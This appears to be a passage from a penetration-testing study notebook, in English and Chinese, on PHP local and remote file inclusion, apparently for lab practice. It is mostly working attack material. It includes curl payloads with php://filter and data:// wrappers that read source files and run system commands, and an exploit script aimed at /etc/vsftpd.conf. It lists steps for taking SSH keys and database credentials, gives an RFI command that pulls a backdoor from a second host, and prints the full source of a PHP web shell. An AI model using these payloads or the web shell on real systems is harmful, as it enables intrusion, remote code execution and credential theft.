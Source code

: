 * PHP filter 
```
curl http://192.168.1.100/index.php?page=php://filter/resource=admin.php
```
* PHP filter with base64 encode 
```
curl http://192.168.1.100/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```
* data://
```
curl "http://192.168.1.100/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```
* data wrapper with base64
```
curl "http://192.168.1.100/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```
## We able to read local files… What next?
>[!warning]
>pg pratice Maria
- We found a user Jospeh from /etc/passwd, we can try to check if we could read his SSH key ? So we can SSH to the machine.
- Checking the FTP folder where we found it earlier, we might be able to get mysql credentials since the file is related to mysql (base on the folder name).
- Looking for other wordpress config file containing admin/DB credentials so we can login to the portal/DB.
```
python3 cve_2020-11738.py http://192.168.195.167 /etc/vsftpd.conf
```

# Remote File Inclusion (RFI)

>[!warning] 小節重點
>如果有開allow_url_include的話，可以讓php讀取外部的檔案，並且load到頁面裡面。
## RFI 指令
```
curl "http://192.168.1.100/index.php?page=http://192.168.1.111/simple-backdoor.php&cmd=ls"
```

```php, title=simple-backdoor.php
<?php 
if(isset($_REQUEST['cmd'])){
	echo "<pre>"; 
	$cmd = ($_REQUEST['cmd']); 
	system($cmd); 
	echo "</pre>"; 
	die; 
} 
?>
```
## 檢查allow_url_include 
- Apache : /etc/php/X.Y/apache2/php.ini
- Nginx : /etc/php/X.Y/fpm/php.ini
```
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```
